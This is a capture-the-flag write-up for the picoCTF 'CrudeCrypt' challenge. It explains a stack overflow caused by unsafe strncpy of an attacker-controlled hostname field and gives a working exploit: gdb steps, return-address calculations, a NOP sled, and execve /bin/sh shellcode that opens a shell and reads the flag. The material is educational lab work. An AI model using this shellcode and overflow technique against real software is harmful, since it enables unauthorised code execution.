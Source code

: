 **Name**: CrudeCrypt  
**Points**: 180  
**Type**: Binary Exploitation  
**Description**:  
Without proper maintainers, development of [Truecrypt](http://truecrypt.sourceforge.net/) has stopped! CrudeCrypt has emerged as a notable alternative in the open source community. The author has promised it is 'secure' but we know better than that. Take a look at the [code](https://picoctf.com/problem-static/binary/CrudeCrypt/crude_crypt.c) and read the contents of `flag.txt` from the server! The problem is at `/home/crudecrypt/crude_crypt` on the shell server.  
**Hint**:  
You can never trust user input!  
**Files**: crude_crypt.c

*****
# Code review

Here is what the relevant functions do:

##### main
- check if there are 3 arguments
- check if 1st argument is "encrypt" or "decrypt", and assign action function pointer
- if encrypt, setegid()
- open 2nd and 3rd argument as files
- read out file_password from stdin (max 128 bytes; possibly not null terminated)
- digest = MD5(password)
- call action(infile, outfile, digest)
- cleanup + exit

##### decrypt_file
- get file size of infile (using fstats)
- calloc buffer of that size
- copy contents of infile to buffer
- try decrypt_buffer (this function should work as intended)
    if fail, return
- create file_header based on decrypted data; we can put whatever we want in the header!
- check if magic number is correct
    if not, return
- call check_hostname
    print error message if it doesn't match
- write_size = MIN(header->file_size, infile size - header size); possible signed/unsigned bug!
- write decrypted data to outfile

##### check_hostname
- unsafe strncpy from header->host to stack buffer of size 32
- call safe_gethostname
- return after calling strcmp

```C
bool check_hostname(file_header* header) {
    char saved_host[HOST_LEN], current_host[HOST_LEN];
    strncpy(saved_host, header->host, strlen(header->host));
    safe_gethostname(current_host, HOST_LEN);
    return strcmp(saved_host, current_host) == 0;
}
```

*****
# Exploitation

The bug we are going to exploit is in the function check_hostname. The strncpy is used unsafely, because it is being told to copy the contents from src to dest (for the length of **src**). A safe usage would copy the contents from src to dest (for the length of **dest**)! Using strncpy in this way is the same as using strcpy, which is unsafe if src is provided by the user. By copying a src string that is larger than dest, we can cause a stack overflow which we can use to overwrite eip.

We can exploit this, because after the decryption of the infile, the header is created based on the decrypted data without any checks. This means we control whatever is in the header struct. This includes host, which is usally a 32-byte, null-terminated string. By removing the null bytes at the end, we can increase the length of the host string to cause the stack overflow.

In order to verify if this bug works, we will try to encrypt a file full of "a"s, but right before the call to encrypt the data, we will tamper with the header. This will result in an encrypted file that will result in a SEGFAULT when decrypted. I will use password "a", but it doesn't really matter.

##### Testing the exploit:
```
$ cp -r /home/crudecrypt/ /tmp/delilled
$ cd /tmp/delilled/crudecrypt
$ python -c 'print "a"*100' > a_file
$ <use gdb to read a_file, overwrite any null characters in host, and store the result in enc_file>
$ ulimit -c unlimited
$ ./crude_crypt decrypt enc_file dec_file
-> File password: a
Segmentation fault (core dumped)
$ gdb -q crude_crypt core 
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x61616161 in ?? ()
```

Ok, so we know we have control of eip and the stack. After checking that the stack is executable ($ readelf crude_crypt -a | grep GNU_STACK), which it is, we will place nop slide + shellcode in our input and overwrite eip with the address of the middle of the nop slide.

Using gdb, we can determine that the host variable is located at `0xffffd5c0` and the return address is located at `0xffffd60c`. If we provide a reasonable nop sled (32 bytes), this should bring the address of the middle of the nop sled to `0xffffd64c`. It doesn't really matter what we use to fill the host variable before encryption, as long as there are no string terminators (I will be using "a"s). For fault tolerance, I will also be repeating the sled address 8 times, because teh return address is located 4 bytes from where the data starts.

##### The structure of the exploit data will be:
`(sled address)*8 + (\x90)*128 + shellcode`

##### Shellcode:
`\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

##### Executing the exploit:
```bash
$ python -c 'print "\x4c\xd6\xff\xff"*8 + "\x90"*128 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"' > exploit_data
$ <use gdb to read exploit_data, overwrite any null characters in host, and store the result in exp_file>
$ cd /home/crude_crypt
$ ./crude_crypt decrypt /tmp/delilled/crudecrypt/exp_file /tmp/delilled/crudecrypt/dec_file
-> File password: a
$ cat flag.txt
writing_software_is_hard
```

If you're having trouble with landing on the nop sled, you can push it around by changing the arguments. Since the 3rd argument (outfile) doesn't matter, as long as it can be opened, you could try playing with this. Alternatively, you could create a bigger nop sled. I just got lucked that it worked right away, but I had trouble running it my tmp directory.

*****

REFERENCES:
- [stat struct](http://codewiki.wikidot.com/c:struct-stat)
- [fstat](http://linux.die.net/man/2/fstat)
- [mcrypt library](http://mcrypt.hellug.gr/lib/mcrypt.3.html)
